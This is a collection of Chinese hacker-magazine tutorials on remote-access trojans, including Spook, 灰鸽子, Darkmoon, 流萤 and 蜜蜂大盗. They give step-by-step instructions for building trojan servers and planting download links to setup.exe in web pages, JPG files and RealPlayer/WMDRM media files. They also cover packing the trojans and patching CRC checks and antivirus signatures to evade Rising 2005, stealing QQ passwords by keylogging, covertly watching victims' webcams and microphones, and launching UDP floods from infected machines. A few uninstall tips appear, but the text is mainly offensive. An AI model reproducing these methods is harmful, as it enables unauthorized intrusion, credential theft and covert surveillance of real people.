进入 Spook 的“文件管理器”项，可以看到肉鸡上的磁盘，我选择进入 C 盘，这样肉鸡上 C 盘下的文件就一览无遗了，随便选中一个文件夹右击弹出菜单如图10。

图10

图11

关于文件（夹）的一些基本操作全在这儿了，像在自己机子上操作没什么两样。点击工具栏上如图11的图标可以打开一个在肉鸡上执行命令的模拟 CMD 窗口，如图12。

由于它只是一个模拟的 CMD 窗口，或者说是 DOS 窗口，所以难免和真正的 TELNET SHELL 有点差别，最好不要执行返回结果太长的命令，例如 `DIR` 系统文件夹 `Windows`，这样容易造成太长时间程序没有任何响应。命令格式也和真正的 CMD 窗口不太一样，比如：`dir c:\`，那么在这个虚拟的 CMD 窗口里在命令行中输入：`cmd.exe /c dir c:\`。大家也不必去一个个记，常用命令在这个虚拟的 CMD 窗口的命令输入框里可以找到。

图12

最后请大家看看 Spook 的屏幕监视功能，在第二个工具栏上单击如图13的图标。又打开一个对话框，在“屏幕操作”菜单下有“查看屏幕”、“连续查看”、“停止查看”、“保存屏幕”、“关闭窗口”几个选项，连接上肉鸡后，我们选择“查看屏幕”就可以查看到肉鸡在某一固定时刻的屏幕画面了，如图14。

关于 Spook，Magic dog 就介绍到这里了，大家可以自行测试熟练一下。另外提醒各位马大哈们，如果不小心自己中了这个木马，只需运行解压后文件夹里的 `clear.exe` 清除程序，就把这个木马清除了。

图13

图14

（本文中涉及到的程序 spook 已经收录在光盘中）

### 灰鸽子远程控制全程

最近无聊在黑客站点上游荡，大家讨论最多的还是灰鸽子的使用，为什么呢？一个字“强”。网上也有许多玩转灰鸽子木马动画，但是大多是对鸽子某一两个方面做简单介绍，感觉很碎。今天我把鸽子的一些玩法给大家总结一下，希望能对大家有帮助。

#### 一、灰鸽子服务端配置

工具：灰鸽子 VIP 2005 破解版

服务端配置是最基础的，我大概说下重点，不然有人砸我说我把糟粕说了。首先点“自动上线”，如图1，在“网易免费域名更新 IP”处先申请一个免费域名，比如 `wyx123584584.126.com`，再点“更新 IP 到域名”，如果一次更新出错就反复多试几次，一般会成功的。

再点“配置服务程序”，这里有几点值得注意：

- “自动上线”处一定要填正确了，就填我们刚才申请的域名 `http://wyx123584584.126.com`，下面的“自动上线连接密码”可不填，填写是为了安全。
- 关于破解：这也是最关键的地方，在运行鸽子客户端的时候我们先要运行它的破解文件，我们双击 `hosts.exe`，自解压路径不能改变，至于为什么不能变大家想下就会明白了，然后运行 `http.exe`，点“开始服务”（如果你本身的 IIS 开了的话应该先将其停止）。前提步骤做好了，我们打开鸽子，如图2。在配置服务端的用户名和用户密码处随便填写即可，然后点“生成服务端”，到这服务端就生成了。每一步都是关键的，少一步，服务端可能就不能生成。

图1

图2

图4

```javascript
<SCRIPT language="javascript">...（脚本代码截图）...</SCRIPT>
```

图5

#### 二、制作网页木马

- 工具：专业版网页木马生成器[IFRAME 溢出]
- 南域剑盟网页木马生成器
- 教主网页木马生成器
- 潜入者修改免杀版（备用）

光有服务端是不行的，必须要发给对方运行才行……先使用专业版网页木马生成器，如图3。

图3

在“木马程序路径”上填写 `http://520hacker.ccc.com/hehe/setup.exe`……将生成的 `icyfox1.htm`、`icyfox.htm` 和 `icyfox.chm` 这三个文件传入空间对应目录即可。

我们再看看南域剑盟网页木马生成器，如图4，界面很简单，在 url 处填写 `http://520hacker.ccc.com/hehe/setup.exe` 即可，最终生成一个 `Script.txt` 的文件，如图5，我们将这一段代码插入到某个网页文件即可……

最后我们看看教主网页木马生成器，如图6，简单介绍下，在“选择木马”处填写本地木马地址，在“网页目录”处填写 `http://520hacker.ccc.com/hehe/`……这样对方打开网页不会引起怀疑。

图6

最后说下工具潜入者是干什么的……我们将 `123.exe` 做成网页木马即可，这样对方打开网页不会引起怀疑。

### 三、把鸽子做 JPG 木马

- 工具：图片木马生成器 v1.0
- 一张美女图片
- jpglowder

是阁下的个人爱好吧，别拉上我们这些清白的看客）。怎么？你不喜欢？别不好意思了！撒谎是不好的行为！！我们将一个网页图片发给一个男同胞，让他在欣赏美女照片的时候不知不觉中马，那该多好啊！

好，今天用到的工具是图片木马生成器 v1.0，如图7。在“网页木马地址”处填写 `http://520hacker.ccc.com/hehe/setup.exe`，在“图片网络地址”处填写 `http://520hacker.ccc.com/hehe/meinv.jpg`（当然这个图片要事先上传好），在“木马保存路径”处选择一个本地保存地址，比如 `c:\vyx.jpg`，将这个图片发给男性就行了。万一是个女同胞呢？呵呵！发个帅哥哥给她就行了。

呵呵，顺便再介绍一个制作图片木马的工具：jpglowder，这个是外国人写的，功能很强大，如图8。至于具体怎么使用我就不说了，网上教程很多，我就不卖弄了，不过这个工具网上很难找的，要感谢遭遇者提供的工具。

#### 四、利用播放器漏洞传播灰鸽子木马

- 工具：Real Media Editor 汉化版
- Real Player 网页木马生成器
- China-DRM WMDRM

现在最流行的播放器是什么呢？我想还是要数 Real Player 和 Microsoft Media Player，当然木马传播也不能少了它们两个。至于怎么传播木马，请听我慢慢道来。我们打开 Real Media Editor，如图9。依次点“文件”——“打开 real 媒体文件”选择一个 rm 文件，然后依次点“工具”→“合并事件”，我们加入一个事件，如图10。

好！讲讲下，`1.txt` 是干什么的呢，我们打开看下，命令如下：`00:6.0 00:10.0 http://www.baidu.com`，这句话的意思是说 rm 文件播放到第 6 秒的时候自动打开 `http://www.baidu.com`。细想，如果 `http://www.baidu.com` 换成我们木马的地址会是什么样的呢？我不敢往下想！最后我们点“文件”下的“real 文件另存为”即可。我们可以将这个 rm 文件传到网上，等着人家点击吧。至于 Real Player 网页木马生成器，限于篇幅，在此就不介绍了。

下面再来说说怎么用 Microsoft Media Player 传播木马，至于原理我就不卖弄了，因为这是人家的功劳，如图11。我们用到的工具是 `wmdrm`，如图12。先在“自定义打包”→“源文件”→“浏览”处选择一个适合的类型（wmv、wma、asf、wms），然后在“认证字符串”、“认证url”处填写我们的木马地址 `http://520hacker.ccc.com/hehe/setup.exe`，最后我们回到“自定义打包”，在“输出文件后缀”处填写一个合适的后缀，比如 `.wma`，点“打包加密”文件就生成了。我们打开刚才生成的文件会出现如图13所示的情形，如果点确定，那么播放器就会下载我们木马运行了。

#### 五、给灰鸽子木马加壳躲避查毒软件

工具：三层驱动 Sa.exe

灰鸽子虽然功能强大，但俗话说得好：人怕出名猪怕壮。灰鸽子不能躲避杀毒软件的查杀，当然灰鸽子本身也带 UPX 加壳功能。

……我们在配置服务端的时候一般不选择 UPX 加壳，而是手动加壳。网上加壳工具很多，文中示例使用三层驱动 Sa 为鸽子加壳，在“目标文件”处选择服务端文件，然后在“选项”处选择加壳级别，可加壳三回……一般加壳后的文件会比原文件小很多。

#### 六、用灰鸽子盗 QQ 密码

工具：无

须盗 QQ 密码前提是我们已经控制了一台灰鸽子肉鸡，并且肉鸡上运行了 QQ。可通过“远程控制命令”→“进程管理”查看并结束/选择 QQ 进程，开启键盘记录，等待对方输入密码后停止记录并查看结果。若对方输入较规律可推测密码；也可配置邮件转发，将记录发送到指定邮箱，但该方式对分段输入场景效果较差。

好了，我就先介绍到这了，剩下的就请你慢慢动手吧。

> （本文中涉及到的程序：Real Player、网页木马生成器、RealMediaEditor、能突破 XP+SP2 的网页木马生成器、潜入者修改免杀版、三层驱动 Sa、WMDRM3.1、专业版网页木马生成器[IFRAME 溢出]、jpglowder 等。）

## 牧马记

### 宣战 Darkmoon

### 逗鸟理巴

我想大家都知道土耳其木马——ProRat！它功能强大，又是早期能穿透 WinXP 防火墙的木马。翻看 X 的光盘，我却得到了一个更好的木马 Darkmoon。它是一款和 ProRat 很相似的木马，包括界面、功能。不过 Darkmoon 的功能更具特色。

打开 Darkmoon 首先弹出一对话框，不过是英文，翻译成中文就是：“什么是新！穿透防火墙（输入完整的文件名称，例如：notepad.exe），可以通过 FTP、邮箱、MSN、固定 IP 和 ICQ 设置服务端，有双进程，隐蔽方面还是不错的。”

点“OK”确定后看看它和 ProRat 有什么不同？基本相似！Darkmoon 默认是英文，我们选择 Chinese 后就变成中文了（感谢 x140d4n 的热情汉化），如图1。


大概介绍一下界面右上角从左到右为“皮肤管理”“卸载服务端”“查看从木马下载的东东”“木马信息”“关于”。点击左边选项中的“创建服务端”，首先看见的是“通知设置”，可以通过 FTP、邮箱、MSN、反弹连接设置。和 ICQ 不同的方式，点一下反弹连接设置下面的“你的 IP”，再点“普通设置”是默认设置，如图2。


我认为一定要改服务端名称！因为运行服务端后我们查看进程会有两个 EXPLORER.EXE 进程！如图3，我是演示也就不改了。


其它几项和别的木马差不多，如运行后弹出错误对话框、AV-FW 杀手（用于 KILL 杀毒软件和防火墙）、文件合并、启动方式、延时运行、UPX 压缩，你可以自己动手尝试一下那些功能（如果你选 exe 或 .scr 一定要选图标！要不生成的服务端是 Delphi 架构默认图标，因为该木马是用 Delphi 编写的）。配置好后点“生成服务端”就行了。

怎么让人家打开就看你的本事了，你可以正向连接，直接输入 IP、端口、密码；若设置了反向连接，直接在“连接”后面的 IC 前点一下，木马就会自动检测了！如图4，点“yes”后就可以随意控制了。


连接上后，一般我们都会先看中马者的数据和机子配置。先点“连接设置”，右边显示当前中马者机器的注释。再点“PC 配置”，等一两秒钟就会显示出来，不过显示出来的都是英文，毕竟是国外木马就凑合看吧。

此木马比较有创意！点击“管理”按钮，有很多好玩的功能！我都试了，用它做“恶作剧”再合适不过了（如更改界面颜色、更改窗口背景颜色、更改窗口标题、激活屏保、设置背景、设置分辨率、杂音、开始按钮失控、还原前进、后台下载……），如图5。


当然，既然是木马都必须具备几个功能：“进程管理”：先点“刷新”选好要终止的进程 ID 后点“终止”就行了。“发送窗体信息”及“聊天”功能，这个就不用多说了！“注册表编辑”：还比较人性化，有删除键值、删除数值、创建键值、创建数值，如图6。


“键盘记录”：只能记录英文字符！无法记录中文，这是比较遗憾的地方！“远程 Shell”：可以实现 CMD 下的所有功能！如图7。“文件管理”：这个功能的模式和 ProRat 相似，我也很喜欢。先搜索驱动器，木马立即显示当前机器的所有硬盘符，通过右边的按钮进行操作，“文件搜索”这个功能和“文件管理”配合着使用。就是有一点 BUG，点“搜索”后无法停下来。“桌面控制”：也是大多木马具备的项；“摄像头”是才出来没多长时间的功能，但是如果你想使用这两项功能就得先下载插件，如图8。


图7


图8

“本机设置”中的“连接设置”是更改木马服务端的各种功能端口，有“键盘记录监听端口”“键盘记录连接端口”“反弹连接端口”“FTP 端口”。而“普通”这个功能是更改木马界面的宽度和高度，我认为没什么实际作用！“关闭 PC”可远程让中马的机器进行重启、注销、关机。

“限制管理”：也是不错的功能，如图9，自己看它限制的项目吧。如果是在自己的机器上实验，千万要注意！不要以为你点了没反应，当机器重启后后果不堪设想。我已经尝试过了，实在可怕！！（支持 Win2000 以上系统）


图9

“Web 服务器”：是开启 WEB 服务的，不多介绍了。“服务器”：我点了半天也没反应！郁闷……。

当我们不小心自己运行了服务端，不要紧，点右上方第2个图标就卸载了。还有一种手动方法：打开资源管理器，先在“EXPLORER.EXE”点右键，选择“结束进程树”，再选择“SPOOLSV.EXE”结束进程树。完成后，打开最新版的超级兔子魔法→超级兔子魔法设置→启动程序，你会惊奇地发现“兔子”的扫描结果，如图10。

它已经怀疑了！！！赶快去掉前面的对号并删除它。其实它隐藏在  
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run]  
之中，删除“EXPLORER.EXE”和“SPOOLSV.EXE”就可以了。开启系统显示隐藏文件，进入系统盘的 windows\system32 文件夹，删除伪装的 EXPLORER.EXE 和 SPOOLSV.EXE 就完事了，是不是很简单啊。


图10

还有一点要说，我在手动删除服务端时，看到在 windows\system32 文件夹的最下面有几个文本文件，如图11，我打开一看，吓我一跳！原来里面是中马后的键盘记录。我真晕，作者怎么不把它们改成隐藏文件，这么容易就找到了。汗！


图11

Darkmoon 的优点很多，如生成的服务端小且暂时不被查杀，功能强大。但缺点也不少，比如服务端隐藏、开机自启动过于简单。总体来说，喜欢 Darkmoon 没有理由。（本文中涉及到的程序 Darkmoon 4.11 最终版已经收录在光盘中）

### 打造 X 档案专用流氓木马

### 在“瘟”

chenggong

近期的 X 档案介绍了多个 X 档案专用版或者阉割版的木马，我今天再给黑友们带来一个《X 档案专用版的“流萤”》，它不仅没有任何功能限制，而且生成的木马服务端还是免杀的。经过测试在瑞星2005下绝对是免杀的，因此我将它称为 X 档案专用的“流萤”VIP版，下面我们就开始艰难的改造历程。

#### 一、木马的进程

我们先看看不吝啬的“流萤”的运行情况。首先在网上下载“流萤”2.3，配置好服务端后在本机运行，运行后可看到增加2个进程，如图1，分别为 WinDebug.exe 和 conime.exe 两个进程；当我们运行控制端后又增加1个进程（不包括控制端进程）Serpent.exe（运行服务端后不运行控制端用文件监视工具查看，仅可看到增加了 WinDebug.exe，看不到 Serpent.exe），也就是说“流萤”运行后增加3个进程。


图1

看着这3个进程都有什么用处，我们用 IceSword 将进程 WinDebug.exe 结束后，仍可用控制端连接控制服务端，看来 WinDebug.exe 不是主程序；将进程 Serpent.exe 结束后已不能控制木马了，由此看来 Serpent.exe 才是木马真正的服务端主程序。WinDebug.exe 是一个下载器（也就是所谓的 16K 木马的“程序”），用于下载主程序 Serpent.exe。也就是说木马运行后会释放出 WinDebug.exe 和配置文件 Info.ini，再由 WinDebug.exe 按配置反弹到控制端下载服务端。一旦 WinDebug.exe 和控制端连上就下载主程序 Serpent.exe。假如控制端没有启动，WinDebug.exe 因连接不上无法下载主程序，因此你看不到 Serpent.exe 进程。

我们再来看 conime.exe 进程，有人说是木马，有人说是正常进程。实际上它是输入法编辑器，允许用户用标准键盘输入复杂字符，并不是病毒程序，而是 Windows 正常组件。许多木马因控制功能需要会调用它；如果你没有启动命令提示符等程序（命令提示符启动后可自动启动 conime.exe），却在进程中发现了 conime.exe，就可能是中木马了。


CRC 校验最常用的方法是程序自身检验脱壳前后文件大小，常调用的函数有 SetFilePointer、GetFileSize、ReadFile。用 OLLYDBG 载入脱壳后的服务端，按 Ctrl+N 打开当前模块，找到函数 SetFilePointer，右键选择“在每个参考设置断点”，这样会在所有调用处下断点。然后按 F9 运行，再按 Shift+F9 跳过异常，直到可疑位置。

#### 二、破解 CRC 校验

“流萤”的作者说服务端不能随意脱壳改造，否则会导致文件运行出错。将脱壳工具 UPX 下载后，在命令提示符下运行 `UPX -d ma.exe`，即可将木马服务端 ma.exe 脱壳。脱壳后本地运行木马未报错，但联网后控制端却无法与本机木马建立连接，估计服务端可能连接到网络上的其它地址去了。

打开抓包工具 SpyNet3.12，运行脱壳后的木马，果然看到可疑连接（如图2）：木马去连接 `hzxhzx123.3322.org`。


`hzxhzx123.3322.org` 是什么？这是木马作者的希网动态域名，也就是说脱壳后控制端木马会直接反弹到作者那里。用 OLLYDBG 打开脱壳后的服务端，点“搜索”→“所有参考文本”，搜索该字符串（可找到多处），附近即可定位 CRC 校验点。

CRC 全称“Cyclic Redundancy Check”（循环冗余校验）。本例脱壳后不能正常运行，正是程序加入了 CRC 校验；要想让脱壳后的木马正常运行，必须找到并修改 CRC 校验逻辑。


在两个 SetFilePointer 调用之间有一个数值 `4000`（16384）。查“流萤”Data目录可知 MinExe.DAT（未脱壳）大小约 16K，即十六进制 4000；脱壳后文件大小约 30208（十六进制 7600）。因此将校验值从 4000 改为 7600 即可绕过校验。

在 OLLYDBG 中双击 4000 所在地址，按空格进入汇编编辑，将 `4000` 改为 `7600`，然后复制到可执行文件并保存，程序即可恢复正常。

#### 三、修改文件病毒码

过去改造木马一般需要每次都改服务端，效率较低且不利于发布。可以直接改“流萤”的配置文件：先将 Data 目录中的 MinExe.DAT（木马配置信息相关）和 ExeServer.dat（主程序 Serpent.exe）脱壳，再用上述方法破解 MinExe.DAT 的 CRC 校验，然后继续进行病毒码修改与生成。

文件病毒码改造起来比较容易，查找病毒码的方法，X 档案介绍过多次了，在 X 档案 2005 年第 4 期我写过一篇手工查找病毒码的文章，大家可以去参考一下。如想用软件自动查找，推荐使用“特征码定位器 CCL”，使用方法很简单。我主要谈谈如何修改文件病毒码，好多人都推荐用“00”或其它代码替换法，不过替换后经常造成木马功能丢失甚至无法运行，我在此推荐一个新方法——跳转法，就是将原指令改为 JMP 跳转到空隙处（PE 文件由于对齐的原因有空隙），在空隙处补上原代码，然后再跳转回去。

具体修改方法如下：用16位编辑器 WinHex 在 MinExe.DAT 中用上述方法很快找到了一处文件病毒码，如图5，00005FFC 处的代码就是我找到的一处病毒码（有多处一般改一处即可），然后用 OLLYDBG 打开脱壳后 MinExe.DAT，程序入口点处的“558BECB906”就是一处文件病毒码。


```
00406C01  jmp 00406EF0      ; 无条件转移到 00406EE9
00406EF0  mov ebp,esp       ; 补上代码
00406EF7  mov ecx,6         ; 补上代码
00406EFC  jmp 00406C08      ; 跳转回 00406C08 继续运行
```

点右键“复制到可执行文件”→“全部修正”→“全部复制”，保存文件后用瑞星查杀，不报病毒了。有的黑友说加个壳吧，千万不要给 MinExe.DAT 加壳，加壳后由于不能正确写入配置信息可造成连接不上，如需加壳可生成木马后再加壳。

我们再来看看 ExeServer.dat，脱壳前瑞星报病毒，脱壳后不报病毒，但种植木马后生成的主程序 Serpent.exe 报病毒。这好办！用 svkp1.43 汉化版给 ExeServer.dat 加一个壳后，木马主程序 Serpent.exe 在瑞星下面很容易过关了。

#### 四、修改内存病毒

修改文件病毒码后的木马用瑞星查杀时不报病毒，但一运行就报病毒，实际上述就是内存病毒码的问题。由于程序运行后必须在内存中还原，因此用常规的方法无论如何加壳、修改，都不能解决内存查杀。

内存病毒码与文件病毒码是两套完全不同的病毒码，查找和改造都比较复杂。如你想自动查找还是推荐使用“特征码定位器 CCL”，但我认为定位不太准确，速度也不快。介绍一下手工如何查找，手工查找最大的优点是定位准确。

工具还是用16位编辑器 WinHex，首先用 WinHex 打开 MinExe.DAT，用查找文件病毒码相似的方法，将文件分成多份，分别用“00”进行填充。填充后一定不要直接运行程序，因为此时填充后的程序直接运行很可能要出错，甚至造成系统崩溃。这时要用 OLLYDBG 将 MinExe.DAT 载入（此时所有代码已读入内存），然后打开瑞星主程序，在“查杀目录”中仅保留“内存”选项，如图7。


然后点“查杀病毒”按钮进行内存查杀。哪一块用“00”填充后瑞星不报病毒，就证明内存病毒码在此填充块内，然后逐渐缩小范围直到找到病毒码，熟练后速度很快。如图8，内存病毒码为函数 InternetReadFile。

怎么是函数？修改函数几乎是不可能，瑞星啊！真是不同寻常啊！病毒码是找到了，如何修改成了难题。查函数表 InternetReadFile 好像不常用，但是在此木马中应该是个重要函数，是联网后读文件的函数，因此选它作了内存病毒码。

“流萤”常用的 IP 地址和动态域名反弹技术用不到此函数，因此完全可以将此函数替换掉。用 WinHex 打开 MinExe.DAT，再用函数 InternetOpenUrlA 将函数 InternetReadFile 替换掉，保存后生成一个木马试试，连接不上。再用 WinHex 打开 ExeServer.dat，同样方法用函数 InternetOpenUrlA 将函数 InternetReadFile 替换掉，保存后生成一个木马试试，上线了，并且所有功能都正常！


图8

图9

希望高手们有什么更好的方法一定告诉我。ExeServer.dat 无内存病毒码，因此不要修改，太好了！

将修改后的2个配置文件保存后生成一个木马，然后打开瑞星2005试试，无论如何查杀也不报病毒了，终于成功了！

最后我们将它改造成《X档案专用版的“流萤”》。用 ResScope 打开脱壳后的控制端主程序，将“RCDATA”中的“TTHEMAINFORM”选项的“反弹远控平台——流萤V2.3版”改成：X 档案专用版的“流萤”，如图9。

以上是我在瑞星2005病毒库日期为2005.1014下通过查杀测试的，黑友们快去试试吧！如果你不想改造就用我改造好的 X 档案专用的“流萤”吧，不过有一个要求：一定不要外传，本木马仅为 X 档案会专用。

（本文涉及到的软件 IceSword、UPX、SpyNet3.12、OLLYDBG、WinHex、svkp1.43 汉化版、特征码定位器 CCL 以及 X 档案专用版流萤，光盘有收录）


### 天涯衰草


图1


图2


图3

记得最早知道它还是从国内著名的网络安全服务商江民公司的病毒公告中得知的。从病毒公告中可以看到，该木马被江民公司称为一款窃取资金的木马，它有着强大的信息窃取、远程监控功能，具有窃取几乎所有密码的能力，并且能够自动打开受害者的摄像头，进行远程监控、远程摄像，遥控 QQ、中止防火墙等功能，并且通过各种方式都无法将其完全清除。

目前蜜蜂大盗的最新版本是 8.0，让我们这些从未使用过“蜜蜂”的用户好好领略一番它的风采吧。

### 一、蜜蜂大盗的配置

将下载的蜜蜂大盗解压，然后运行文件夹中那个蜜蜂图标的文件即可启动蜜蜂8的客户端。启动完成后，首先出现的是蜜蜂8的登录界面，用户在使用蜜蜂8的时候首先要注册一个用户名。点击登录界面中的“申请帐户”按钮，然后根据提示信息输入你喜欢的用户名、密码和电子邮件，以后登录“蜜蜂”的服务器就是使用这个帐户和密码，你也可以选择一个头像。帐户名和密码长度为 4～20 位，并且支持中文、英文大小写、数字等各种符号，整个过程就像申请 QQ 号码一样简单（图1）。

注册成功后返回登录界面，输入刚刚申请的帐户和密码进行登录。由于蜜蜂8的服务器在国外，登录有时需要一定的时间。登录成功以后，程序首先有一个温馨的消息框从屏幕底部升起，同时伴有提示音效，然后就会弹出蜜蜂8的操作界面（图2）。蜜蜂8操作界面看上去和我们平时使用的 QQ 非常相似，并且还会弹出一个蜜蜂8的“配置中心”窗口，在这里用户可以查看蜜蜂8的公告信息、更改个人资料、配置客户端的相关信息等（图3）。

我们首先来看“配置中心”中的相关内容。点击“系统设置”选项来对客户端程序进行一些个性化设置。“声音”选项可以对不同的提示声音进行设置；“界面”选项可以对蜜蜂8的界面进行设置，用户可以选择自己喜欢的界面；“闪烁警告”选项可以在蜜蜂客户端检测到本地计算机……

## 牧马记

系统含有蜜蜂8的服务端程序运行时，会出现闪烁的图标来提醒用户注意。闪烁的图标是客户端程序主窗体的“清除木马”按钮图标，用户通过它可以对系统中的蜜蜂服务端程序进行清除；“远程监控”中的“自动检测传输量”选项可以在远程监控时首先对传输量进行监测，这样也方便我们以后的远程控制操作（图4）。

图4

点击“木马生成”选项，用户可以根据自己的需要对生成的服务端程序进行配置，下面就对每个选项进行一些简单的讲解（图5）。

图5

- “常规截取一般软件”：一般普通的软件都是用标准的密码输入框进行密码输入，使用常规的截取方法就能将其截取，如：QQ、MSN、雅虎通、FlashFXP等。无论用户使用何种方式输入密码，如粘贴、输入一部分然后删除另一部分、在号周围加0等方式，都不能逃脱蜜蜂的眼睛；蜜蜂只会盗取最后一次输入且正确的密码，所以无论用何种办法来试图防范被盗，都是徒劳的。蜜蜂采用了过滤装置，这使得盗取出来的内容不会出现“垃圾”现象。
- “强制截取指定软件”：一些软件对密码输入框采取了防范截取密码的措施，例如软键盘输入密码，或者是以图片的形式显示文字。这时该功能就能发挥作用了，实际上它是按键记录和智能截图的结合体。选中该项后，要求填写要强制截取的软件的主程序名，如QQ主程序名是qq.exe，并且不区分名称的大小写。
- “给被截取的软件截图”：有些时候，从盗取的内容上很难判断到底是盗取的什么软件的密码，这时截图就起作用了，打开邮件附件，看看图片便知。
- “截取网页内容”：网页上的信息也一样能盗，比如电子邮件的登录账户和密码等。
- “将盗取的信息发送到邮箱”：如果不选中该选项，用户将不会在信箱中收到盗取的信息。不过要提醒大家，只有注册用户才能使用该功能，未注册的用户即使选中该功能，也不会收到邮件。用户可以通过汇款注册的方式直接升级为普通注册用户（5级）或高级注册用户（7级）。如果你不愿出钱的话，用户可以通过挂级的方式升级到注册用户级别。从登录开始计算，每在线1小时即可获得1点经验值。当经验值累计到一定程度，就会自动升级。级别越高，用户能使用的功能也越多，是不是感觉和QQ更相像了。
- “将盗取的信息立即显示”：如果你想立即体验蜜蜂的盗取能力，那么就将这一项选中，这样蜜蜂8就可以将被盗取的信息立刻显示出来，没有注册的用户通过该功能同样可以获取被盗取的信息。
- “QQ自发消息（QQ尾巴）”：通过QQ给对方发消息，这一过程是强制的。发送的消息根据你的需要可以随意修改，并且支持Name替换，支持QQ表情。
- “QQ立即下线”：如果选中此项，当某人运行你的木马后，他正在运行的QQ就会立即掉线，这样就可以迫使他重新登录QQ，你就能立即获取他的QQ号和密码了。
- “关闭防火墙”：如果选中了此项，木马运行后就会将系统中运行的防火墙进行关闭。
- “远程监控密码认证”：如果选中了此项，当远程监控此木马所在电脑时，需要输入密码，监控台会自动跳转到密码输入处等候用户输入密码。
- “自动升级”：选中了此项，木马将会在每次启动时从指定网络地址自动下载并升级为新木马。
- “使用网页木马”：通过IE浏览器的漏洞来传播蜜蜂8的服务端程序。使用此项后，客户端程序会生成两个或者三个文件（如果同时选中了“池塘木马”就会生成三个），将生成的xxx.bmp和xxx.htm文件上传到你的网络空间让别人访问即可。
- “使用袖珍木马”：实际上就是生成一个较小的自动下载器和本应生成的蜜蜂木马。使用的时候，先将较大的木马服务端程序上传到你的网络空间，再将较小的自动下载器传给对方。当别人运行了较小的自动下载器后，就会自动从指定的网络空间地址下载并运行真正的服务端程序。
- “使用脱壳木马”：就是没有进行加壳处理的服务端程序。很多用户希望为木马脱壳，然后自己加壳，选中此项，生成的服务端程序就是脱了壳的。

在配置某些选项的时候，会在右侧弹出一个小窗口，可以对该选项进行配置，包括木马图标、强制截取的软件、QQ自发消息等。配置完毕后，点击“生成服务端”即可，木马默认保存的地址是C:\internet。

点击“探测新IP”选项，用户首先在“IP地址”后填写一个IP地址，如果该IP地址对应的电脑已经中了蜜蜂8的服务端程序，该IP就会立即上线，用户在主界面就能看到对方的IP了，只需双击就开始远程控制了。这其实就是常见的正向连接方式，要使用反弹连接方式需要一定的级别才行。由于蜜蜂木马默认的端口是2222，可是由于各种因素的干扰，比如2222端口被其它的程序占用，可能不会探测到蜜蜂的服务端，所以这时用户需要更改端口设置（图6）。

图6

### 二、蜜蜂8的远程控制

在蜜蜂的主窗口上点击左边的第一个按钮“显示上线木马”，等待蜜蜂的归巢。当用户通过“探测新IP”功能探测到蜜蜂的远程服务端后，蜜蜂就会在我们的列表中自动上线。当有蜜蜂上线的时候，会弹出一个类似MSN好友上线的提示框，并在上线列表中显示。任意双击一只小蜜蜂，在弹出的“监控台”窗口中我们就可以进行远程控制。蜜蜂8可以让用户从前台的桌面到后台资源，从远程语音到远程摄像，从远程注册表到远程命令行，全方面地监控中了“蜜蜂”木马的远程计算机，并且还是为数不多的能够通过局域网控制局域网的木马。

点击“远程图像”按钮，通过它用户可以对远程计算机的桌面以及摄像头的图像进行查看。在“图像来源”中选择需要查看远程计算机的途径。要观看远程计算机的桌面屏幕，就选择“桌面”；若要查看视频图像，则选择“摄像头”选项。选择完成后，点击“开始观看”按钮就可以查看到远程计算机的桌面或视频，你所看到的图像和远程计算机完全是同步的。“单张抓取”功能每次只能抓取一张图片，并且抓取的图片会保存到蜜蜂木马的安装目录中。通过对画面质量、每块大小、色彩深度、色彩亮度等设置，可以对抓取的图片质量进行设置。对于“控制程度”选项，当用户选择“无”时，用户就不能远程控制计算机的键盘和鼠标。遇到“中”和“高”时，可以远程控制计算机的键盘和鼠标，但在鼠标的遥控上有一定区别：当为“中”时，只有当客户端用户按下鼠标时才给远程计算机响应；当为“高”时，就可以随时进行鼠标定位（图7）。不管远程用户愿不愿意，你都能轻松看到他，而且不会被远程用户察觉。视频图像大小为320×240，是一般视频通信的3倍，这样“远程摄像”就成为你的千里眼了。

有了千里眼，就应该有顺风耳。蜜蜂8除了能对远程的视频进行监控外，还可以对远程计算机的音频进行监听。选中“远程话筒”选项后，用户将能同步地听到远程计算机所发出的声音，比如用户正在播放的音乐或者用户正在使用话筒通话，都能听到。

图7

“资源浏览”的功能就是对远程计算机的磁盘文件进行管理操作。蜜蜂8的资源浏览和平时使用的Windows系统很相似，在地址栏选择需要管理的磁盘来查看其中的内容；用户可以通过鼠标右键中的命令，对远程系统的文件进行上传、下载、更名等操作，甚至还可以对所选的磁盘进行格式化操作（图8）。除了普通的文件下载外，蜜蜂8还可以进行压缩下载。点击压缩下载选项后，将弹出一个“另存为”的对话框，下载的压缩文件将以“xxx_编号.lzh”的文件名保存。压缩文件下载完成后，用户可以使用WinRAR打开该压缩文件。

图8

在选择多文件时需要按住“Ctrl”或“Shift”键，即可进行多项选择。普通的用户在无法使用电子邮件获得远程密码的时候，可以通过“按键记录”来获取。选中“键盘、鼠标按键记录”选项，蜜蜂8就能同步地记录远程计算机中的所有按键操作；同时，蜜蜂8还可以在显示区中显示出红、蓝、绿等不同的圆圈。圆圈表示远程计算机鼠标点击位置，红色表示鼠标左键，蓝色表示鼠标中键，绿色表示鼠标右键（图9）。

图9

蜜蜂8的“命令集”按钮中包含了很多命令按钮，在左侧的命令中选择需要的命令，然后点击“发送并执行”按钮即可。这些命令包括获取系统信息、注销、重新启动、关机、弹出/关闭光驱、修改分辨率等。其中的“PC喇叭发声”命令可以让远程计算机发出声音。首先在右侧的空白处进行编写，然后点击“试听”按钮，满意后就可以点击发送了。蜜蜂8的文件夹中已经包含了几首示例音乐文件，保存在music文件夹中；你可以点击“浏览”按钮进行选择并使用。用户通过“UDP攻击”命令，能通过远程计算机对其它电脑进行洪水攻击。受到攻击的电脑则会给别人下跪，甚至可能出现断网的现象。在“要攻击的IP地址”选项中填写要攻击的电脑IP地址，点击“开始执行”即可。用户如果使用多台远程计算机集体进行UDP攻击的话，效果就会更加明显（图10）。

图10

“发送消息”按钮可以向远程计算机发送消息或与远程计算机的用户进行聊天。选择需要的图标类型后，在“标题”和“内容”中输入发送内容的标题和内容，填写完毕后点击“发送”按钮或者按Ctrl+Enter进行发送，操作起来也非常简单（图11）。如果远程计算机正在进行其它操作，操作窗口就会被服务端程序自动最小化，这样用户就能看到你发送的消息了。

图11

通过“进程查杀”按钮，用户可以查看远程计算机当前的所有进程。通过点击“刷新”按钮，将对列出的远程计算机中运行的所有进程进行刷新处理，并且可以通过“强制关闭”按钮对某个进程进行关闭（图12）。再转到“命令行”按钮，用户可以在此执行很多终端命令，其实这就是一个类似Telnet操作的命令。用户可以一次性输入多条命令来执行批处理操作，每条命令以行隔开即可（图13）。

图12

